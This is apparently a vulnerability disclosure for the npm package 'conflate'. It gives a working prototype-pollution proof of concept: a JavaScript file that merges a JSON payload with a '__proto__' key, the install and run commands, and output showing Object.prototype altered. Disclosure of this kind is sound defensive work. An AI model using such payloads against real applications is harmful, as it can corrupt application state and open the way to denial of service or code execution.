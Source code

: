 # Description

`conflate` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const conflate = require('conflate')

console.log(`Before: ${{}.polluted}`)
conflate({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i conflate # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
